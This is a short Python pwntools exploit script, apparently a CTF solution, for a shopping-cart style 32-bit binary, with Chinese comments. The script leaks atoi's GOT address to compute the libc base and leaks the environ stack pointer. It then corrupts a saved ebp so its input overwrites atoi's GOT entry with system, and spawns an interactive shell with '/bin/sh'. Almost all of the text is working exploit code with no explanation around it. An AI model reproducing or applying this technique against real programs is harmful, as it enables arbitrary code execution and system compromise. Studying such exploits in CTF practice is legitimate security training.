 ```python
def create_device(name,price=0,fd=0,bk=0):
    return pack(name)+pack(price)+pack(fd)+pack(bk)

cart(b'yy'+create_device(elf.got['atoi']))
io.recvuntil("27: ")

atoiaddress=unpack(io.recvn(4))
lib.address=atoiaddress-lib.symbols['atoi']

info("atoi address: "+ hex(atoiaddress))
info("lib base address: "+ hex(lib.address))
info("environ ** address: "+hex(lib.symbols['environ']))

cart(b'yy'+create_device(lib.symbols['environ']))
io.recvuntil("27: ")

environstack=unpack(io.recvn(4))
info("environ stack address: "+hex(environstack))

# PauseLocalDebug()
# 得到 DeleteEbp 的位置。
DeleteEbp=environstack-260

# 劫持 delete 旧 ebp 到 GOT 表，使得 delete 函数 leave 后 handle 中的输入( handle中输入偏移 ebp-0x22 )恰好指向 GOT 表中 atoi 表项
delete(b'27'+create_device(0,0,elf.got['atoi']+0x22,DeleteEbp-0x8))

# input  中覆盖 GOT 中 atoi 函数表项
io.sendafter("> ",pack(lib.symbols['system'])+b";/bin/sh;")

io.interactive()
```


